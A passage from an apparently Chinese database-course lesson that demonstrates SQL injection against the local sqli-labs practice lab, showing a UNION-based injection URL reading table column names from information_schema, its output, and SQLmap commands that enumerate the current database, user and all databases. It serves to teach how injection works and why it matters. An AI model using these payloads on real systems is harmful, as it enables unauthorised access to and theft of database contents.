 这里我们同样将数据表名称使用GROUP\_CONCAT函数拼接起来，作为字段3进行返回。

![](https://static001.geekbang.org/resource/image/7e/a7/7e1aa81c623e28c87666cfdd290462a7.png?wh=1728*142?wh=1728*142)

### 查询heros数据表中所有字段名称

在上面的实验中，我们从wucai数据库中找到了熟悉的数据表heros，现在就来通过information\_schema来查询下heros数据表都有哪些字段，使用下面的命令即可：

```
http://localhost/sqli-labs-master/Less-1/?id=' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='heros') --+

```

这里会将字段使用GROUP\_CONCAT函数进行拼接，并将结果作为字段3进行返回，返回的结果如下所示：

```
attack_growth,attack_max,attack_range,attack_speed_max,attack_start,birthdate,defense_growth,defense_max,defense_start,hp_5s_growth,hp_5s_max,hp_5s_start,hp_growth,hp_max,hp_start,id,mp_5s_growth,mp_5s_max,mp_5s_start,mp_growth,mp_max,mp_start,name,role_assist,role_main

```

![](https://static001.geekbang.org/resource/image/f3/bf/f30c7a68fba4fd8eff3ea8370aca00bf.png?wh=1725*116)

## 使用SQLmap工具进行SQL注入检测

经过上面的实验你能体会到，如果我们编写的代码存在着SQL注入的漏洞，后果还是很可怕的。通过访问 `information_schema` 就可以将数据库的信息暴露出来。

了解到如何完成注入SQL后，我们再来了解下SQL注入的检测工具，它可以帮我们自动化完成SQL注入的过程，这里我们使用的是SQLmap工具。

下面我们使用SQLmap再模拟一遍刚才人工SQL注入的步骤。

### 获取当前数据库和用户信息

我们使用 `sqlmap -u` 来指定注入测试的URL，使用 `--current-db` 来获取当前的数据库名称，使用 `--current-user` 获取当前的用户信息，具体命令如下：

```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --current-db --current-user

```

然后你能看到SQLmap帮我们获取了相应的结果：

![](https://static001.geekbang.org/resource/image/42/05/42626ab164f9935e0c22ced9fa5f8105.png?wh=1097*219)

### 获取MySQL中的所有数据库名称

我们可以使用 `--dbs` 来获取DBMS中所有的数据库名称，这里我们使用 `--threads` 参数来指定SQLmap最大并发数，设置为5，通常该参数不要超过10，具体命令为下面这样：

```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --threads=5 --dbs

```

同样SQLmap帮我们获取了MySQL中存在的8个数据库名称：
